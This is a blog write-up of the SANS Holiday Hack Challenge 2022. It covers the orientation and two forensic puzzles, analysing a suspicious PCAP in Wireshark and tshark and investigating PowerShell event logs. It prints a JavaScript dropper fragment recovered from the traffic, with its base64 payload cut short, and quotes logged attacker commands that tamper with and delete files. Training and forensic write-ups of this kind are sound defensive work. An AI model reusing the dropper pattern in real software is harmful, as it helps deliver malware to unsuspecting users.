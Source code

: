 SANS Christmas Challenge 2022
=============================
:date: 2023-01-06
:author: useless
:category: Write-up
:slug: sans-christmas-challenge-2022
:status: published

.. image:: /images/sans-christmas-challenge-2022/sans_christmas_challenge_2022_logo.png
    :alt: The SANS 2022 Christmas Challenge. In the background, a hill top,
        with a frozen castle and a frozen dungeon. In the foreground, the text
        "Holiday Hack Challenge 2022 now open".
    :align: center

Five Rings to rule them all, Five Rings to find them,

Five Rings to bring them all and in the darkness pwn them.

In the Land of Kringle where the Red-teamers lie.

*(see, I can mix it up)*

Here's my write-up for the `2022 SANS Christmas Challenge <https://holidayhackchallenge.com/2022/>`__.

.. contents:: Table of contents

Introduction
~~~~~~~~~~~~

New year, new KringleCon! However, Santa has lost his Five Golden Rings and
can't perform his magic. He has given us the task of retrieving them in the
caves that lay below his frozen castle. Let's go!

KringleCon Orientation
~~~~~~~~~~~~~~~~~~~~~~

.. image:: /images/sans-christmas-challenge-2022/jingleringford.png
    :alt: Jingle Ringford. She's an elf with pointy ears. She's wearing a white
        t-shirt, a brown skirt and black shoes. She also has a pink christmas
        hat on her head. She's smiling.
    :align: center

*Jingle Ringford says*

    Welcome to the North Pole, KringleCon, and the 2022 SANS Holiday Hack
    Challenge! I’m Jingle Ringford, one of Santa’s elves.

    Santa asked me to come here and give you a short orientation to this
    festive event.

    Before you move forward through the gate, I’ll ask you to accomplish a few
    simple tasks.

    First things first, here's your badge! It's the five golden rings in the
    middle of your avatar.

We now have a badge on our avatar.

.. image:: /images/sans-christmas-challenge-2022/jingleringford.png
    :alt: Jingle Ringford, same image as before.
    :align: center

*Jingle Ringford says*

    Great - now you're official!

    Click on the badge on your avatar. That’s where you will see your
    Objectives, Hints, and gathered Items for the Holiday Hack Challenge.

    We’ve also got handy links to the KringleCon talks and more there for you!

    Next, click on that machine to the left and create a crypto wallet for
    yourself. Don't lose that key!

We click on the KringleCoin Teller Machine to create our account:

.. image:: /images/sans-christmas-challenge-2022/wallet_creation_1.png
    :alt: The first screen of the KringleCoin Teller Machine. It reads:
        "KringleCoin Teller Machine - Account Creation. Welcome to the
        KringleCoin Network! We're glad you're here! Hello! This system is
        designed to help you with the process of creating a cryptocurrency
        wallet! We will do all of the tedious, difficult work for you - you
        just need to do one, VERY important thing: We're going to be showing
        you some very important information: YOU will need to keep track of it.
        If you lose the private key to your wallet... well, we don't even want
        to think about that.  Probably the only thing on earth that could save
        you is some genuine Santa-type magic... So please PLEASE get prepared
        to copy down the information we're going to present to you on the next
        screen."
        Below the text, there is a green button that reads "Click here when
        you're ready to proceed".
    :align: center

We click on the green button:

.. image:: /images/sans-christmas-challenge-2022/wallet_creation_2.png
    :alt: The second screen of the KringleCoin Teller Machine. It reads:
        "It appears that you currently do not have a KringleCoin wallet. You'll
        need one while you're here at the North Pole. Let's get started and set
        up your wallet. You'll earn KringleCoins for completing challenges or
        you just might be lucky enought to find some! Who knows!
        Your KringleCoin wallet consists of two values, a WalletAddress and a
        Private (Secret) Key.
        This is critically important: YOU are responsible for keeping track of
        your account information. If you come back here, we can tell you your
        WalletAddress, but (and this is very, VERY important) we CANNOT tell
        you your secret key. If you lose it, you lose access to your
        KringleCoins.
        Here is your KringleCoin wallet information:
        WalletAddress: an hexadecimal value
        Key: a censored hexadecimal value
    :align: center

Now you didn't think I would publish my secret key and let y'all steal my
precious KringleCoins, right?

.. image:: /images/sans-christmas-challenge-2022/jingleringford.png
    :alt: Jingle Ringford, same image as before.
    :align: center

*Jingle Ringford says*

    Fantastic!

    OK, one last thing. Click on the **Cranberry Pi Terminal** and follow the
    on-screen instructions.

The Cranberry Pi Terminal is divided in two panes: an upper pane that reads

.. code-block:: text

    Enter the answer here

    >

and a lower pane that reads:

.. code-block:: text

    Welcome to the first terminal challenge!

    This one is intentionaly simple. All we need to do is:

    - Click in the upper pane of this terminal
    - Type answer and press Enter

We do so, and bingo:

.. image:: /images/sans-christmas-challenge-2022/jingleringford.png
    :alt: Jingle Ringford, same image as before.
    :align: center

*Jingle Ringford says*

    Great! Your orientation is now complete! You can enter through the gate
    now. Have FUN!!!

We can now enter the North Pole, where we find Santa:

.. image:: /images/sans-christmas-challenge-2022/santa.png
    :alt: Santa Claus. He's wearing his usual attire: a red suit with a red
        Christmas hat, and a brown belt with a golden buckle.
    :align: center

*Santa says*

    Welcome to the North Pole, intrepid traveler!

    Wow, we had quite a storm last night!

    My castle door is sealed shut behind a giant snowbank.

    The Elves have decided to burrow under the snow to get everything ready for
    our holiday deliveries.

    But there's another wrinkle: my Five Golden Rings have gone missing.

    Without the magic of the Rings, we simply can't launch the holiday season.

    My reindeer won't fly; I won't be able to zip up and down chimneys.

    What's worse, without the magic Rings, I can't fit the millions of cookies
    in my belly!

    I challenge you to go on a quest to find and retrieve each of the five
    Rings.

    I'll put some initial goals in your badge for you.

    The holidays, and the whole world, are counting on you.

Recover the Tolkien Ring
~~~~~~~~~~~~~~~~~~~~~~~~

We go down under the snow, to recover the first ring, the Tolkien Ring, where
we come upon Grinchum:

.. image:: /images/sans-christmas-challenge-2022/smeagol.png
    :alt: Grinchum looks like an elf. He's crouching. His torso is bared and
        he's wearing a brown loincloth, and a red Christmas hat. He's frowning
        but he looks quite pleased. Anyway you get it, he looks like Gollum
        from The Lord of the Rings, but with a Christmas hat.
    :align: center

*Grinchum says*

    *Preciousesss....*

    *Don't worry, you are hidden. You are safe.*

Wireshark Practice
------------------

Moving on, we enter what looks like the kitchen, where we find Sparkle
Redberry.

.. image:: /images/sans-christmas-challenge-2022/sparkleredberry.png
    :alt: Sparkle Redberry is an elf with green skin. He's wearing a white
        sweater with green pants and purple shoes. He also has a green
        Christmas hat on his head. He looks non-plussed.
    :align: center

*Sparkle Redberry says*

    Hey there! I’m Sparkle Redberry. We have a bit of an incident here.

    We were baking lembanh in preparation for the holidays.

    It started to smell a little funky, and then suddenly, a Snowrog crashed through the wall!

    We're trying to investigate what caused this, so we can make it go away.

    Have you used Wireshark to look at packet capture (PCAP) files before?

    I've got a `PCAP </docs/sans-christmas-challenge-2022/suspicious.pcap>`__
    you might find interesting.

    Once you've had a chance to look at it, please open this terminal and answer the questions in the top pane.

    Thanks for helping us get to the bottom of this!

Let's download the given PCAP and open up the terminal:

.. code-block:: text

    There are objects in the PCAP file that can be exported by Wireshark and/or
    Tshark. What type of objects can be exported from this PCAP?

Let's open the PCAP file in Wireshark:

.. image:: /images/sans-christmas-challenge-2022/tolkien_ring_wireshark_init.png
    :alt: The suspicious.pcap file opened in Wireshark. We mostly see HTTP
        traffic.
    :align: center

It looks like this is mainly HTTP traffic. If we go to the :code:`File >
Export Objects` menu in Wireshark, we can see several object types, but only
the :code:`HTTP` entry gives us file that can be extracted:

.. image:: /images/sans-christmas-challenge-2022/tolkien_ring_wireshark_file_export.png
    :alt: The HTTP file export functionality. We see three entries:
        1. app.php, size of 754 bytes, starts at packet number 8.
        2. app.php (again), size of 808 kB, starts at packet number 687.
        3. favicon.ico, size of 1130 bytes, starts at packet number 692.
    :align: center

So, the answer is :code:`HTTP`.

.. code-block:: text

    What is the file name of the largest file we can export?

We can easily see from the previous screenshot that, with a size of 808 kB,
the :code:`app.php` file is the largest.

.. code-block:: text

    What packet number starts that app.php file?

There are two entries for the :code:`app.php` file, however, the largest one
starts at packet number :code:`687`.

.. code-block:: text

    What is the IP of the Apache server?

Let's go to packet number :code:`687`:

.. image:: /images/sans-christmas-challenge-2022/tolkien_ring_wireshark_apache_ip.png
    :alt: Packet 687. We see the response from the Apache server, with a source
        IP of 192.185.57.242.
    :align: center

We can see that the HTTP server is responding with an HTTP code 200. Therefore,
the source IP address corresponds to the Apache server: :code:`192.185.57.242`.

.. code-block:: text

    What file is saved to the infected host?

Let's use the :code:`File > Export Objects > HTTP` menu to export the large
:code:`app.php` file. If we take a look inside, we can see that a large blob
is base64-decoded, before being saved to file:

.. code-block:: js
    :hl_lines: 13

    (function() {
        let byteCharacters = atob('UEsDBBQAAAAIAFCjN1FIq7H4ezsJAI[...]JAAAA');

        let byteNumbers = new Array(byteCharacters.length);
        for (let i = 0; i < byteCharacters.length; i++) {
            byteNumbers[i] = byteCharacters.charCodeAt(i);
        }
        let byteArray = new Uint8Array(byteNumbers);

        // now that we have the byte array, construct the blob from it
        let blob1 = new Blob([byteArray], {type: 'application/octet-stream'});

        saveAs(blob1, 'Ref_Sept24-2020.zip');

    })();

The file is named :code:`Ref_Sept24-2020.zip`.

.. code-block:: text

    Attackers used bad TLS certificates in this traffic. Which countries were
    they registered to? Submit the names of the countries in alphabetical
    order separated by commas (Ex: Norway, South Korea).

Let's use some :code:`tshark` to easily extract the value of the field we are
interested in. The interesting field name to extract the country a certificate
was registered to is `x509sat.CountryName <https://www.wireshark.org/docs/dfref/x/x509sat.html>`__.
With a little clean-up, we get the following country names:

.. code-block:: console

    $ tshark -r suspicious.pcap -T fields -e x509sat.CountryName | tr ',' '\n' | sort -u

    IE
    IL
    SS
    US

By using the full names of the countries, we get :code:`Ireland, Israel, South
Sudan, United States of America`.

.. code-block:: text

    Is the host infected (Yes/No)?

Well if some weird behavior has been observed, it's mots likely that the host
has been infected: :code:`Yes`.

After answering all questions properly, we talk to Sparkle Redberry again:

.. image:: /images/sans-christmas-challenge-2022/sparkleredberry.png
    :alt: Sparkle Redberry, same image as before.
    :align: center

*Sparkle Redberry says*

    You got it - wonderful!

    So hey, when you're looking at the next terminal, remember you have
    multiple filetypes and tools you can utilize.

    Conveniently for us, we can use programs already installed on every Windows
    computer.

    So if you brought your own Windows machine, you can save the files to it
    and use whatever method is your favorite.

    Oh yeah! If you wanna learn more, or get stuck, I hear `Eric Pursley's
    <https://youtu.be/5NZeHYPMXAE>`__ talk is about this very topic.

Windows Event Logs
------------------

We move on to find Dusty Giftwrap:

.. image:: /images/sans-christmas-challenge-2022/dustygiftwrap.png
    :alt: Dusty Giftwrap is an elf with glasses and a white beard. He's wearing
        a green coat with white fur, a brown skirt, black shoes, and a purple
        Christmas hat.
    :align: center

*Dusty Giftwrap says*

    Hi! I'm Dusty Giftwrap!

    We think the Snowrog was attracted to the pungent smell from the baking lembanh.

    I'm trying to discover which ingredient could be causing such a stench.

    I think the answer may be in these suspicious logs.

    I'm focusing on Windows Powershell logs. Do you have much experience there?

    You can work on this `offline </docs/sans-christmas-challenge-2022/powershell.evtx>`__
    or try it in this terminal.

    Golly, I'd appreciate it if you could take a look.

Let's lend a hand:

.. code-block:: text

    Grinchum successfully downloaded his keylogger and has gathered the admin
    credentials!

    We think he used PowerShell to find the Lembanh recipe and steal our secret
    ingredient.

    Luckily, we enabled PowerShell auditing and have exported the Windows
    PowerShell logs to a flat text file.

    Please help me analyze this file and answer my questions.

    Ready to begin?

Ready!

.. code-block:: text

    1. What month/day/year did the attack take place? For example, 09/05/2021.

Let's use `evtx <https://github.com/omerbenamram/evtx>`__ to easily parse the
EVTX file, by converting it to JSON:

.. code-block:: console

    $ ~/bin/evtx/evtx -o json -f powershell.json powershell.evtx

Now, let's search for :code:`Lembanh` in the file. We see some weird stuff
around here:

.. code-block:: json
    :hl_lines: 44

    {
      "Event": {
        "#attributes": {
          "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
        },
        "EventData": {
          "ContextInfo": "        Severity = Informational\r\n        Host Name = ConsoleHost\r\n        Host Version = 5.1.19041.1682\r\n        Host ID = 21ec2576-2920-4c0f-8047-0b85ad219ffa\r\n        Host Application = C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\r\n        Engine Version = 5.1.19041.1682\r\n        Runspace ID = 4181eda9-20e6-4eb9-8869-fe5fa6d5e663\r\n        Pipeline ID = 257\r\n        Command Name = \r\n        Command Type = Script\r\n        Script Name = \r\n        Command Path = \r\n        Sequence Number = 1703\r\n        User = DESKTOP-R65OKRB\\Chris Massey\r\n        Connected User = \r\n        Shell ID = Microsoft.PowerShell\r\n",
          "Payload": "CommandInvocation(Out-Default): \"Out-Default\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"Recipe from Mixolydian, the Queen of Dorian\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"Lembanh Original Recipe\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\" \"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"2 1/2 all purpose flour\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"1 Tbsp baking powder\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"1/4 tsp salt\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"1/2 c  butter\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"1/3 c brown sugar\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"1 tsp cinnamon\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"1/2 tsp honey (secret ingredient)\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"2/3 c heavy whipping cream\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"1/2 tsp vanilla extract\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"Preheat oven to 425F. Mix the flour, baking powder and salt into a large bowl. Add the butter and mix with a well till fine granules (easiest way is with an electric mixer). Then add the sugar and cinnamon, and mix them thoroughly.\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"Finally add the cream, honey, and vanilla and stir them in with a fork until a nice, thick dough forms.\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"Roll the dough out about 1/2 in thickness. Cut out 3-inch squares and transfer the dough to a cookie sheet.Criss-cross each square from corner-to-corner with a knife, lightly (not cutting through the dough).\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"Bake for about 12 minutes or more (depending on the thickness of the bread) until it is set and lightly golden.\"\r\nParameterBinding(Out-Default): name=\"InputObject\"; value=\"Let cool completely before eating, this bread tastes better room temperature and dry. Also for more flavor you can add more cinnamon or other spices\"\r\n",
          "UserData": ""
        },
        "System": {
          "Channel": "Microsoft-Windows-PowerShell/Operational",
          "Computer": "DESKTOP-R65OKRB",
          "Correlation": {
            "#attributes": {
              "ActivityID": "54BDC5C1-F7AB-0001-FA72-BF54ABF7D801"
            }
          },
          "EventID": 4103,
          "EventRecordID": 7905,
          "Execution": {
            "#attributes": {
              "ProcessID": 1216,
              "ThreadID": 4080
            }
          },
          "Keywords": "0x0",
          "Level": 4,
          "Opcode": 20,
          "Provider": {
            "#attributes": {
              "Guid": "A0C1853B-5C40-4B15-8766-3CF1C58F985A",
              "Name": "Microsoft-Windows-PowerShell"
            }
          },
          "Security": {
            "#attributes": {
              "UserID": "S-1-5-21-3359507890-24144431-3438718502-1002"
            }
          },
          "Task": 106,
          "TimeCreated": {
            "#attributes": {
              "SystemTime": "2022-12-24T11:01:03.659392Z"
            }
          },
          "Version": 1
        }
      }
    }

The attack took place on :code:`12/24/2022`.

.. code-block:: text

    2. An attacker got a secret from a file. What was the original file's name?

Let's look at the :code:`ScriptBlockText` attribute of the events. It contains
the PowerShell scripts that were executed. Let's also look for a keyword such
as :code:`recipe`:

.. code-block:: console
    :hl_lines: 3

    $ grep -iE 'ScriptBlockText.*recipe' powershell.json
          "ScriptBlockText": "echo \"Dec 18 2022 `nLembanh! Santa wants us to try making some this year. We searched everywhere for this recipe that's supposed to have the secret ingredient to really make it authentic. It's gonna be delicious, I'm so excited!\" >> mydiary.txt"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'\n"
          "ScriptBlockText": "cat .\\recipe_updated.txt\n"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "del .\\Recipe.txt"
          "ScriptBlockText": "del .\\recipe_updated.txt"

Apparently, the file is called :code:`Recipe`.

.. code-block:: text

    3. The contents of the previous file were retrieved, changed, and stored to
    a variable by the attacker. This was done multiple times. Submit the last
    full PowerShell line that performed only these actions.

So, the command must retrieve the content, modify it, and store it in a
variable. We can actually see that from our last command:

.. code-block:: console
    :hl_lines: 16

    $ grep -iE 'ScriptBlockText.*recipe' powershell.json
          "ScriptBlockText": "echo \"Dec 18 2022 `nLembanh! Santa wants us to try making some this year. We searched everywhere for this recipe that's supposed to have the secret ingredient to really make it authentic. It's gonna be delicious, I'm so excited!\" >> mydiary.txt"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'\n"
          "ScriptBlockText": "cat .\\recipe_updated.txt\n"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "del .\\Recipe.txt"
          "ScriptBlockText": "del .\\recipe_updated.txt"

The last PowerShell line is:

.. code-block:: powershell

    $foo = Get-Content .\Recipe| % {$_ -replace 'honey', 'fish oil'}

.. code-block:: text

    4. After storing the altered file contents into the variable, the attacker
    used the variable to run a separate command that wrote the modified data
    to a file. This was done multiple times. Submit the last full PowerShell
    line that performed only this action.

So this time the command only stores our variable to a file. This can *still*
be seen in our previous command:

.. code-block:: console
    :hl_lines: 18

    $ grep -iE 'ScriptBlockText.*recipe' powershell.json
          "ScriptBlockText": "echo \"Dec 18 2022 `nLembanh! Santa wants us to try making some this year. We searched everywhere for this recipe that's supposed to have the secret ingredient to really make it authentic. It's gonna be delicious, I'm so excited!\" >> mydiary.txt"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'\n"
          "ScriptBlockText": "cat .\\recipe_updated.txt\n"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "del .\\Recipe.txt"
          "ScriptBlockText": "del .\\recipe_updated.txt"

The command is:

.. code-block:: powershell

    $foo | Add-Content -Path 'Recipe'

.. code-block:: text

    5. The attacker ran the previous command against one file multiple times. What
    is the name of this file?

Let's search for :code:`Add-Content`:

.. code-block:: console
    :hl_lines: 5 6 7

    $ grep -iE 'ScriptBlockText.*Add-Content' powershell.json
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'\n"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe'"

The file is :code:`Recipe.txt`.

.. code-block:: text

    6. Were any files deleted (Yes/No)?

Let's go to our trusty first command. We can see that two files were deleted:

.. code-block:: console
    :hl_lines: 20 21

    $ grep -iE 'ScriptBlockText.*recipe' powershell.json
          "ScriptBlockText": "echo \"Dec 18 2022 `nLembanh! Santa wants us to try making some this year. We searched everywhere for this recipe that's supposed to have the secret ingredient to really make it authentic. It's gonna be delicious, I'm so excited!\" >> mydiary.txt"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'\n"
          "ScriptBlockText": "cat .\\recipe_updated.txt\n"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "del .\\Recipe.txt"
          "ScriptBlockText": "del .\\recipe_updated.txt"

Therefore, the answer is :code:`Yes`.

.. code-block:: text

    7. Was the original file (from question 2) deleted (Yes/No)?

The file from question 2 was called :code:`Recipe` (no :code:`.txt`). It does
not appear to have been deleted, so the answer is :code:`No`.

.. code-block:: text

    8. What is the Event ID of the logs that show the actual command lines the
    attacker typed and ran?

Let's see the ID associated with events with a :code:`ScriptBlockText`
attribute:

.. code-block:: console

    $ grep -E 'ScriptBlockText|EventID' powershell.json | grep -A 1 ScriptBlockText | grep EventID | sort -u
          "EventID": 4104,

First, we extract the attributes :code:`ScriptBlockText` and :code:`EventID`.
Then we :code:`grep` for :code:`ScriptBlockText` and the line after. This
should give us the associated :code:`EventID`. We'll then :code:`grep` for
only the :code:`EventID`, and get the unique result: :code:`4104`.

.. code-block:: text

    9. Is the secret ingredient compromised (Yes/No)?
    10. What is the secret ingredient?

We can easily answer the two last questions by taking a look at the results
from our trusty one-liner:

.. code-block:: console
    :hl_lines: 4

    $ grep -iE 'ScriptBlockText.*recipe' powershell.json
          "ScriptBlockText": "echo \"Dec 18 2022 `nLembanh! Santa wants us to try making some this year. We searched everywhere for this recipe that's supposed to have the secret ingredient to really make it authentic. It's gonna be delicious, I'm so excited!\" >> mydiary.txt"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'\n"
          "ScriptBlockText": "cat .\\recipe_updated.txt\n"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'} $foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'recipe_updated.txt'"
          "ScriptBlockText": "cat .\\recipe_updated.txt"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_-replace 'honey','fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "$foo = Get-Content .\\Recipe| % {$_ -replace 'honey', 'fish oil'}"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe.txt'"
          "ScriptBlockText": "$foo | Add-Content -Path 'Recipe'"
